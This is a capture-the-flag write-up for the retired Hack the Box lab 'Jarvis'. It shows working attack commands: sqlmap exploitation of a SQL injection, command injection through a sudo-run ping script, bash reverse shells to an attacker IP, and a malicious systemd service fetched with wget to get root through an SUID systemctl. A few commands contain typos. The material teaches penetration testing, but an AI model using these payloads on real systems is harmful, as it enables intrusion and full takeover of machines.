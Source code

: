 ```yaml
---
title: 'Hack the Box- Jarvis Walkthrough'
date: 2020-01-27T18:35:00+01:00
draft: false
---
```


This article is a walkthrough for the retired machine “Jarvis” on Hack the Box. This machine has a static IP address of **10.10.10.143.** Hack the Box is a website to test your hands-on penetration testing on intentionally vulnerable machines.

**Level:** Easy

**Task:** find user.txt and root.txt in the victim’s machine.

### **Penetration Methodology**

**Scanning**

*   Open ports and running services

**Enumeration**

*   Directories enumeration

**Exploitation**

*   Fuzzing to find SQLi
*   Exploiting SQLi using SQLmap
*   Spawning os-shell in SQLmap
*   Getting a meterpreter shell

**Post Exploitation**

*   Enumerating sudoers file
*   Running simpler.py script as user pepper
*   Gaining access to user pepper
*   Post exploitation using SUID set on systemctl
*   Gaining root access

**Snagging the root flag**

Let’s begin

We used the nmap aggressive scan on our target IP **10.10.10.143**  and observed that ports 22 and 80 were open.

![](https://i0.wp.com/1.bp.blogspot.com/-us6gFne8hGA/Xi8Za08npYI/AAAAAAAAihA/dW0CANpKXh4MjipRpswqAOnUO5W6NXZ5QCLcBGAsYHQ/s1600/1.png?w=687&ssl=1)

On moving to the website, we saw a website of some hotel running. The interface was very simple and nothing much could be obtained just by having a look at the source code or even running directory enumeration.

![](https://i0.wp.com/1.bp.blogspot.com/-OGKAKlK8qHQ/Xi8Zc3Zr6gI/AAAAAAAAihQ/PV7MhMA8N481uNf5VJ8DRICh8BH1AuEKACLcBGAsYHQ/s1600/2.png?w=687&ssl=1)

We then tried jumping tabs and testing OWASP Top 10, and luckily, we found SQL injection on the rooms page.

![](https://i2.wp.com/1.bp.blogspot.com/-Ij7HZ9y8Il0/Xi8ZdPIBT6I/AAAAAAAAihY/2wgCHkHcsBEzJ9lynaTlhNtE12Gk1BHyACLcBGAsYHQ/s1600/3.1.png?w=687&ssl=1)

The vulnerable parameter was cod. It was obvious then to run sqlmap on this tamperable URL and see what databases were there on the website.

```
sqlmap –u http://10.10.10.143/room.php?cod=1 --dbs --batch
```

![](https://i1.wp.com/1.bp.blogspot.com/-gE9JB0-wVGA/Xi8ZdLiXdmI/AAAAAAAAihU/3bnJh9jzddAQ8iKS7SHrPvg67_UotdODwCLcBGAsYHQ/s1600/3.png?w=687&ssl=1)

We see 4 databases running on the web application server out of which only one database, i.e, hotels seemed interesting.

![](https://i1.wp.com/1.bp.blogspot.com/-Yf7-NkJd-PM/Xi8Zdi3ILUI/AAAAAAAAihc/2myQklkftZMeyXFT9-UVhPIevPpsNeaVwCLcBGAsYHQ/s1600/4.png?w=687&ssl=1)

We couldn’t find much here and there in databases so it made us go another way. There is this option in sqlmap called the “os-shell” that tries and spawns a shell of the webserver.

```
sqlmap –u http://10.10.1.0.143/room.php?cod=1 --dbs --os-shell --batch
```

![](https://i2.wp.com/1.bp.blogspot.com/-fmrgRQgTpTY/Xi8Zd22ozsI/AAAAAAAAihg/1pyGTEPpBqMpBC11J4zjPkxKAVmbqqv8QCLcBGAsYHQ/s1600/5.png?w=687&ssl=1)

And as expected we landed up with a shell of the server. We confirmed the shell using the command id.

![](https://i0.wp.com/1.bp.blogspot.com/-kPMN0wqScTo/Xi8ZeGjLGLI/AAAAAAAAihk/j7fGZWYoSicIJJrduxd7a5YWWp7tINdyQCLcBGAsYHQ/s1600/6.1.png?w=687&ssl=1)

Now we tried to browse to user.txt but the current user didn’t have the permission to read user.txt.

So, we tried to get access to another user but first, we got out of this really slow and weird os-shell interface using a web\_delivery payload and getting a session on meterpreter back.

![](https://i1.wp.com/1.bp.blogspot.com/-fIkJMnzPpL8/Xi8Ze5Pu4rI/AAAAAAAAiho/NgAa_O_ouEYxZeqE2MKDkLswsWhNIrQagCLcBGAsYHQ/s1600/6.png?w=687&ssl=1)

We copied this python command onto the os-shell teletype and got a familiar teletype with us.

While running, we had a need to change the language from **python** to **python3.**

![](https://i2.wp.com/1.bp.blogspot.com/-JB1pxL3yEtI/Xi8ZfKIY9NI/AAAAAAAAihs/1sWgmaYIQBAN9R7c7PiBHSlD08fRqPg9wCLcBGAsYHQ/s1600/7.png?w=687&ssl=1)

Once, we got our meterpreter session, we immediately got into shell mode using shell command. Then spawned a pseudo teletype using python one-liner and finally checked sudoers file to find out a script called **simpler.py** that had permissions to run as root.

```
shell  
python -c ‘import pty;pty.spawn(“/bin/bash”)’  
sudo -u pepper /var/www/Admin-Utilities/simpler.py
```

![](https://i2.wp.com/1.bp.blogspot.com/-3Rm7wHmM2so/Xi8ZfSOh9nI/AAAAAAAAihw/c94BJToiOMwCWtBoYbQis62X7hw8xVDUACLcBGAsYHQ/s1600/8.png?w=687&ssl=1)

On running the script, we see that it was simply pinging the IP. On further review of the source code, we found out that a simple OS injection wouldn’t have sufficed because all the characters are blacklisted

![](https://i0.wp.com/1.bp.blogspot.com/-wGYK2kNuas8/Xi8Zfkw7kQI/AAAAAAAAih0/KIj2iZtukCMx4l9Hh17R6eta-r2CJwh2wCLcBGAsYHQ/s1600/9.png?w=687&ssl=1)

But we see that $ is not restricted. So, running this script as pepper and running our bash binary inside might give us a shell of the user pepper.

```
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p $(/bin/bash)  
ls  
ls -al  
id
```

**![](https://i0.wp.com/1.bp.blogspot.com/-fE233x61BP0/Xi8Zaq5e0kI/AAAAAAAAig4/duLwM7fiCT8M6uh8KqAeLQ6eZ0lCuLZpACLcBGAsYHQ/s1600/11.png?w=687&ssl=1) **

We tried to run basic commands such as ls, id etc but none of them gave us any output. So, we try to get another shell over netcat using a bash payload

```
bash -i >& /dev/tcp/10.10.14.9/1234 0>&1
```

Here, 10.10.14.9 is my IP.

Let’s open a netcat listener on another terminal window. This time, the shell was better and we are able to read the user.txt flag.

Let’s move towards rooting the box.

The first thing that we tried was to find binaries with SUID bit set.

```
netcat -lvp 1234  
cat user.txt  
find / -perm -u=s -type f 2>/dev/null
```

![](https://i1.wp.com/1.bp.blogspot.com/-yS0oOgWjFBg/Xi8Za4VTfMI/AAAAAAAAig8/L_WDaiMxS8ULW1uGrgYLg9SEjLPY4QYdwCLcBGAsYHQ/s1600/12.png?w=687&ssl=1)

We found systemctl had a SUID bit set. It is fairly evident that if we create a .service file, systemctl would run it as root. Let’s create a service file with name raj.service and add a bash binary in it to be run as root so we get a root bash shell.

Here is the code of the service file:

```
\[Unit\]  
Description=hacking articles  
\[Service\]  
Type=simple  
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.9/8888 0>&1'  
\[Install\]  
WantedBy=multi-user.target
```

![](https://i1.wp.com/1.bp.blogspot.com/-yS0oOgWjFBg/Xi8Za4VTfMI/AAAAAAAAig8/L_WDaiMxS8ULW1uGrgYLg9SEjLPY4QYdwCLcBGAsYHQ/s1600/12.png?w=687&ssl=1)

In this service file, ExecStart command was going to give us a root shell on a netcat reverse listener set up at port 1234. We set up netcat listener and downloaded and this raj.service file in the victim’s system.

```
wget http://10.10.14.9:8000/raj.service  
/bin/systemctl enable /home/pepper/raj.service  
/bin/systemctl start raj
```

![](https://i1.wp.com/1.bp.blogspot.com/-oDWW6t5SYSY/Xi8Zbwdp4lI/AAAAAAAAihI/5Q78zcW_a5YCGU1QhY0ywnPAdXdSgNR1wCLcBGAsYHQ/s1600/15.png?w=687&ssl=1)

On our listener, we were successfully able to get a reverse shell and voila! We got root.

```
nc -lvp 8888  
cd /root  
cat root.txt
```

![](https://i1.wp.com/1.bp.blogspot.com/-hlj_z9Haesk/Xi8ZcNocN1I/AAAAAAAAihM/D2qJNxBNmoII5g0jfjRfzH9YZ1z9txcGQCLcBGAsYHQ/s1600/16.png?w=687&ssl=1)

We snagged the flag and that’s how we got root access to the system. It was a well-balanced lab and there was a lot of new learning. There were no unnecessary exploit development and hence, we’d rate this as **intermediate.**

**Author: Harshit Rajpal **is an InfoSec researcher and left and right brain thinker. contact** [here](https://in.linkedin.com/in/harshit-rajpal-79bb43103)**

The post [Hack the Box- Jarvis Walkthrough](https://www.hackingarticles.in/hack-the-box-jarvis-walkthrough/) appeared first on [Hacking Articles](https://www.hackingarticles.in).

  
  
from Hacking Articles https://ift.tt/38MLIuz